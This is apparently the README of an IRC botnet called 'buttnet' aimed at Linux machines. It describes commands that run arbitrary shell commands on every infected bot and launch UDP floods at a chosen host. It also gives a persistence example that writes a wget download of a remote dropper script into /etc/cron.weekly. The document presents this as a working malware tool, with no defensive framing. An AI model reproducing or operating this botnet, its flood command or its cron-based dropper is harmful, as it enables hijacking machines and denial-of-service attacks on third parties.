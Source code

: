 # buttnet
A simple IRC Botnet for linux-based targets

##Features
###Commands
* !say `<message>`- Echos message back to channel
  * Command output is PM'd back to command issuer
* !cmd `<command>` - Runs command on all bots in channel, or bot PM'd. 
* !udp `<host>` `<port | 0 for random>` `<time>` - UDP flood target

###Dropper
Dropper allows remote persistence. Example:
* `echo "wget http://target/dropper.php" > /etc/cron.weekly/persistence.sh`

###Mutex
Lock file acts as a mutex to prevent multiple instances of the bot from running at once
